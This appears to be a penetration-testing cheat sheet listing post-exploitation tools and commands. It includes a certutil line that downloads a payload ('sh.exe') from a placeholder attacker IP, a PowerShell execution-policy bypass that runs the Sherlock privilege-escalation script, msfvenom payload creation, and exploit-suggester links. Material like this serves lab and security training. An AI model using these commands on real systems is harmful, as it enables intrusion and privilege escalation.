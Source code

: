 0. Useful commands/scripts

- `msfvenom` creates malicious payloads in a variety of formats, see google cheatsheets for usage
- `python -m SimpleHTTPServer 80` serves all the files in your current directory as a web server
- `certutil -urlcache -f http://IP/sh.exe sh.exe` download file from above command on windows
- `linenum.sh` good linux enumeration shell
- `linuxprevchecker.py` another good linux enumeration shell
- `msfconsole`: `use multi/recon/local_exploit_suggester` good enumeration script if you have setup a meterpreter shell
- `rastamouse sherlock` good windows enumeration script
- `powershell.exe -exec bypass -Command "% {Import-Module .\sher.ps1; Find-AllVulns`"
------
- https://github.com/AonCyberLabs/Windows-Exploit-Suggester good windows exploit suggester, use `systeminfo` to get sysinto to feed script.
- Compile C exploit: `gcc FILE.c -o ex.exe`
- https://www.fuzzysecurity.com/tutorials/16.html Good exploits on windows
-------
- No tty? https://netsec.ws/?p=337